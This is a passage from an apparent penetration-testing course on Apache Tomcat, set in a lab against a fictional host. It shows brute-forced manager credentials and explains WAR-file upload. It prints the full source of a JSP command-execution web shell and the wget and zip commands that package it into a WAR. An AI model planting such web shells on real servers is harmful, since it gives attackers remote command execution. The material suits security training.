 [+] Success!!
[+] Username : b'tomcat'
[+] Password : b'admin'
</code></pre>
<p>If you are interested in scripting, check out the modules <a href="https://academy.hackthebox.com/course/preview/introduction-to-python-3">Introduction to Python 3</a> and <a href="https://academy.hackthebox.com/course/preview/introduction-to-bash-scripting">Introduction to Bash Scripting</a>. A neat exercise would be creating our own Tomcat Manager brute-force login scripts using Python and Bash, but we'll leave that exercise up to you.</p>
<hr/>
<h2>Tomcat Manager - WAR File Upload</h2>
<p>Many Tomcat installations provide a GUI interface to manage the application. This interface is available at <code>/manager/html</code> by default, which only users assigned the <code>manager-gui</code> role are allowed to access. Valid manager credentials can be used to upload a packaged Tomcat application (.WAR file) and compromise the application. A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage.</p>
<p>After performing a brute force attack and answering questions 1 and 2 below, browse to <code>http://web01.inlanefreight.local:8180/manager/html</code> and enter the credentials.</p>
<img class="website-screenshot" data-url="http://web01.inlanefreight.local:8180/manager/html" src="/storage/modules/113/tomcat_mgr.png"/>
<p>The manager web app allows us to instantly deploy new applications by uploading WAR files. A WAR file can be created using the zip utility. A JSP web shell such as <a href="https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp">this</a> can be downloaded and placed within the archive.</p>
<pre><code class="language-java">&lt;%@ page import="java.util.*,java.io.*"%&gt;
&lt;%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%&gt;
&lt;HTML&gt;&lt;BODY&gt;
&lt;FORM METHOD="GET" NAME="myform" ACTION=""&gt;
&lt;INPUT TYPE="text" NAME="cmd"&gt;
&lt;INPUT TYPE="submit" VALUE="Send"&gt;
&lt;/FORM&gt;
&lt;pre&gt;
&lt;%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "&lt;BR&gt;");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%&gt;
&lt;/pre&gt;
&lt;/BODY&gt;&lt;/HTML&gt;
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
[!bash!]$ zip -r backup.war cmd.jsp 
